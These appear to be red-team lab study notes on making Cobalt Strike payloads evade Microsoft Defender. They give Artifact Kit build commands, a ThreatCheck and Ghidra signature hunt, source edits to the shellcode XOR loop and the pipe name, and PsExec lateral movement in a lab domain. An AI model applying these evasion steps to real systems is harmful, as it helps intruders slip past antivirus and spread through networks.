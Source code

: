 # Defender Antivirus

Microsoft Defender is pre-installed with Windows (both desktop and server editions), which has become a formidable defense. There are three facets to its detection capability to be explored:

* On-disk
* In-memory
* Behavioural

It's useful to understand how payloads are generated in CS. Beacon is written as a reflective DLL, so there's the core Beacon DLL (everything that make Beacon actually function) plus a reflective loader component. Those are then converted into position independent shellcode, which when injected and executed, calls the reflective loader entry point. The reflective loader then loads the Beacon DLL into memory and kicks off a new thread to run it.

    Reflective Loader + Beacon DLL --> Shellcode

Settings from the Malleable C2 profile (e.g. callback addresses) are stamped into the DLL when payloads are generated; the shellcode is generated, XOR'd, then stamped into them. The artifacts act as "simple" shellcode injectors. They all, with the exception of the service binary, inject Beacon shellcode into themselves.

    XOR'd shellcode --> Allocate RW memory --> Decode shellcode --> Write memory --> Change memory to RX --> Create thread

The service binary is identical to this, except that it spawns another process and performs remote injection instead. 

The complication when trying to bypass AV signatures is knowing which "part" of the payload they apply to - the core Beacon, the reflective loader, or the artifact.

## Artifact Kit

Though dropping files to disk has a bad reputation, it's sometimes unavoidable to use certain tactics (e.g. show that we have access to the File Server, but we can't PsExec to it because the default service binary payload is detected by Defender).

    beacon> ls \\fs.dev.cyberbotic.io\c$
    beacon> jump psexec64 fs.dev.cyberbotic.io smb
    [-] Could not start service 633af16 on fs.dev.cyberbotic.io: 225
    PS C:\Users\Attacker> net helpmsg 225
    Operation did not complete successfully because the file contains a virus or potentially unwanted software.

If we copy the payload to our local desktop and check the associated log, we can see that the "file" was detected.

    PS C:\Users\Attacker> copy C:\Payloads\smb_x64.svc.exe .\Desktop\
    PS C:\Users\Attacker> Get-MpTreatDetection | sory $_.InitialDetectionTime | select -first 1

The Cobalt Strike artifacts in the output are nothing more than shellcode runners that inject Beacon shellcode when executed. As a rule of thumb, they inject the shellcode into themselves (e.g. using the VirtualAlloc & CreateThread pattern). The service binary is the one exception, as it spawns a new process and injects the shellcode into that instead. So when moving laterally with PsExec, the artifact can be deleted from disk immediately.

The Artifact Kit contains the source code for these artifacts and is designed to facilitate the development of sandbox-safe injectors. The idea is to develop artifacts that inject Beacon shellcode in a way that cannot be emulated by AV engines. There are several bypass techniques provided with the kit which you can modify, or you can implement entirely new ones yourself. Where the Artifact Kit does not help is with making Beacon resilient to detection once it's running in memory (e.g. from memory scanners).

The kit can be found in C:\Tools\cobaltstrike\arsenal-kit\kits\artifact.

The code for the entry point of each artifact format (i.e. EXE and DLL) can be found in src-main. These include dllmain.c for the DLL artifacts, main.c for the EXE artifacts, and svcmain.c for the Service EXE artifacts. These just call a function called start, so you should not need to modify these files in most cases. The implementation of this function can be found in each bypass file.

These can be found in src-common and are named bypass-<technique>.c.  The included ones are:

* mailslot - reads the shellcode over a mailslot.
* peek - uses a combination of Sleep, PeekMessage and GetTickCount.
* pipe - reads the shellcode over a named pipe.
* readfile - artifact reads itself from disk and seeks to find the embedded shellcode.

Before making any modifications to the kit, let's just build one of these variants as it is. The kit includes a build script which uses mingw to compile the artifacts.

    ubuntu@DESKTOP-3BSK7NO /m/c/T/c/a/k/artifact> ./build.sh
    [Artifact kit] [-] Usage:
    [Artifact kit] [-] ./build <techniques> <allocator> <stage size> <rdll size> <include resource file> <stack spoof> <syscalls> <output directory>
    [Artifact kit] [-]  - Techniques       - a space separated list
    [Artifact kit] [-]  - Allocator        - set how to allocate memory for the reflective loader.
    [Artifact kit] [-]                       Valid values [HeapAlloc VirtualAlloc MapViewOfFile]
    [Artifact kit] [-]  - Stage Size       - integer used to set the space needed for the beacon stage.
    [Artifact kit] [-]                       For a 0K   RDLL stage size should be 310272 or larger
    [Artifact kit] [-]                       For a 5K   RDLL stage size should be 310272 or larger
    [Artifact kit] [-]                       For a 100K RDLL stage size should be 444928 or larger
    [Artifact kit] [-]  - RDLL Size        - integer used to specify the RDLL size. Valid values [0, 5, 100]
    [Artifact kit] [-]  - Resource File    - true or false to include the resource file
    [Artifact kit] [-]  - Stack Spoof      - true or false to use the stack spoofing technique
    [Artifact kit] [-]  - Syscalls         - set the system call method
    [Artifact kit] [-]                       Valid values [none embedded indirect indirect_randomized]
    [Artifact kit] [-]  - Output Directory - Destination directory to save the output
    [Artifact kit] [-] Example:
    [Artifact kit] [-]   ./build.sh "peek pipe readfile" HeapAlloc 310272 5 true true indirect /tmp/dist/artifact

Review the README.md file inside the Artifact Kit directory for more information. Let's build a new set of artifact templates using the bypass-pipe technique:
    
    ubuntu@DESKTOP-3BSK7NO /m/c/T/c/a/k/artifact> ./build.sh pipe VirtualAlloc 310272 5 false false none /mnt/c/Tools/cobaltstrike/artifacts
    ...
    [Artifact kit] [+] The artifacts for the bypass technique 'pipe' are saved in '/mnt/c/Tools/cobaltstrike/artifacts/pipe'

Each artifact flavor is compiled to /mnt/c/Tools/cobaltstrike/artifacts/pipe/, along with an aggressor script, artifact.cna.

Before loading these into CS, analyse them with a tool like ThreatCheck. This will split the file scan them with Defender to reveal any parts that trip static signatures.

    PS C:\Users\Attacker> C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Tools\cobaltstrike\artifacts\pipe\artifact64svcbig.exe

#### Disable real-time protection before running ThreatCheck against binary artifacts.

The stageless service binary artifact in the lab has something that Defender doesn't like. IDA or Ghidra can dissect the file to see what. Launch Ghidra by running the start script at C:\Tools\ghidra-10.3.1\ghidraRun.bat. 

1. Create a new non-shared project, then import the artifact by going to File > Import File.
2. Open it in the CodeBrowser.
3. When prompted, analyze the binary (the default selected analyzers are fine).
4. Find the portion of code reported by ThreatCheck.
    * Search for a specific byte sequence output by ThreatCheck, for example C1 83 E1 07 8A 0C 0A 41 30 0C 01 48 FF C0 EB E9. Go to Search > Memory.
    * Or use the "bad bytes offset" given by ThreatCheck. Select Navigation > Go To and enter file(n) where n is the offset. In this case it would be file(0xBEC).
5. The portion of highlighted code is a for loop. Go to the Artifact Kit source code and search for any such loops.
6. Dismiss most of these files because we didn't use the readfile bypass nor did we enable syscalls. The candidates in patch.c seem the most promising. Because this is a service binary payload, we know that it will perform a "migration" (i.e. spawns a new process and injects Beacon shellcode into it before exiting). This spawn function under an #ifdef _MIGRATE_ directive is a dead ringer for the decompiled version in Ghidra.
7. To break the detection, modify the routine to compile to a different byte sequence:

        for (x = 0; x < length; x++) {
            char* ptr = (char *)buffer + x;
        
            /* do something random */
            GetTickCount();
        
            *ptr = *ptr ^ key[x % 8];
        }

Rebuild the kit and scan the new version of the artifact, which has a different signature. This is an iterative process, so repeat these steps until all the detections are gone.

Another one seems related to the sprintf call used to create the pseudo-random pipe name in bypass-pipe.c. Change

    sprintf(pipename, "%c%c%c%c%c%c%c%c%cnetsvc\\%d", 92, 92, 46, 92, 112, 105, 112, 101, 92, (int)(GetTickCount() % 9898));

to something like:

    sprintf(pipename, "%c%c%c%c%c%c%c%c%crasta\\mouse", 92, 92, 46, 92, 112, 105, 112, 101, 92);

In most cases, it doesn't matter the change, as long as it's different (and still functional).

To use new artifacts, load the aggressor script. Go to CS > Script Manager > Load, select the artifact.cna file in the output directory. Any DLL and EXE payloads generated from here on use the new artifacts, so use Payloads > Windows Stageless Generate All Payloads to replace all payloads in C:\Payloads.

Delete the existing payloads first because they sometimes only get partially overwritten with the new ones.

Should now be able to move laterally to the file server using PsExec.

    beacon> jump psexec64 fs.dev.cyberbotic.io smb
    Started service 96126c2 on fs.dev.cyberbotic.io
    [+] established link to child beacon: 10.10.122.15

Unload the CNA from the Script Manager to revert to the default payloads.

